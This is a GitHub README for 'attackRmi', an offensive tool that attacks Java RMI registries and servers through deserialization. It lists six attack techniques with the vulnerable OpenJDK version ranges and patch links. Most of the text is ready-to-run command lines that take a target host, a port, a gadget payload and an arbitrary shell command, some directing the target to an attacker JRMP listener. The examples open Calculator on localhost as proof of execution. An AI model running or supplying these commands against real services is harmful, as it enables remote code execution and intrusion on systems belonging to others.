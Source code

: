 # attackRmi

This project uses the socket to send packets directly to attack rmi. The following jdk version refers to the version of openjdk

The following methods attack rmi by deserialization, so the following 6 attack methods require the local classpath to contain gadgets

## AttackRegistryByBindAndAnnotationInvocationHandler

This is actually the RMIRegistryExploit of ysoserial.

condition:

- <jdk8u121

https://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/75f31e0bd829/

## AttackRegistryByDGC

condition:

- <jdk8u121

https://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/75f31e0bd829/

## AttackRegistryByLookup

condition:

- <jdk8u121

https://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/75f31e0bd829/

## AttackRegistryByLookupAndUnicastRef

condition:

- <jdk8u232

https://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/523d48606333/

## AttackRegistryByLookupAndUnicastRefRemoteObject

condition:

- <jdk8u242

https://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/033462472c28

## AttackServerByNonPrimitiveParameter

condition:

- <jdk8u242
  -Types other than primitive tyep can be used
- \>= jdk8u242
  -Types other than primitive type and String can be used

https://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/033462472c28

## Usage
```
ByDGC OR ByLookup
Usage: java -jar attackRmi.jar DOL [registryHost] [registryPort] '[command]'

ByLookupAndUnicastRef OR ByLookupAndUnicastRefRemoteObject
Usage: java -jar attackRmi.jar LAU [registryHost] [registryPort] [JRMPListenHost] [JRMPListenPort]
Usage: java -jar attackRmi.jar LAUS [registryHost] [registryPort] [serverIp] [startPort] '[command]' (run at server)

ByNonPrimitiveParameter
Usage: java -jar attackRmi.jar NPP [registryHost] [registryPort] [name] '[methodSignature]' '[command]'

AttackRegistryByDGC
Usage: java -cp attackRmi.jar com.wu.attackRmi.Exploit.AttackRegistryByDGC [registryHost] [registryPort] [payload] '[command]'

AttackRegistryByLookup
Usage: java -cp attackRmi.jar com.wu.attackRmi.Exploit.AttackRegistryByLookup [registryHost] [registryPort] [payload] '[command]'

AttackRegistryByLookupAndUnicastRef
Usage: java -cp attackRmi.jar com.wu.attackRmi.Exploit.AttackRegistryByLookupAndUnicastRef [registryHost] [registryPort] [JRMPListenHost] [JRMPListenPort]

AttackRegistryByLookupAndUnicastRefRemoteObject
Usage: java -cp attackRmi.jar com.wu.attackRmi.Exploit.AttackRegistryByLookupAndUnicastRefRemoteObject [registryHost] [registryPort] [JRMPListenHost] [JRMPListenPort]

AttackServerByNonPrimitiveParameter
Usage: java -cp attackRmi.jar com.wu.attackRmi.Exploit.AttackServerByNonPrimitiveParameter [registryHost] [registryPort] [name] '[methodSignature]' [payloadType] '[command]'
```
example
- `java -jar attackRmi.jar DOL 127.0.0.1 1099 'open /System/Applications/Calculator.app'`
- `java -jar attackRmi.jar LAUS 127.0.0.1 1099 127.0.0.1 10000 'open /System/Applications/Calculator.app'`
- `java -jar attackRmi.jar LAU 127.0.0.1 1099 127.0.0.1 10000`
- `java -jar attackRmi.jar NPP 127.0.0.1 1099 hello 'sayHello(Ljava/lang/String;)Ljava/lang/String;' 'open /System/Applications/Calculator.app'`

For method signature, you can refer to https://stackoverflow.com/questions/8066253/compute-a-java-functions-signature

## TODO

- [x] attackRMI.jar
- [x] brute force gadget
- [ ] brute method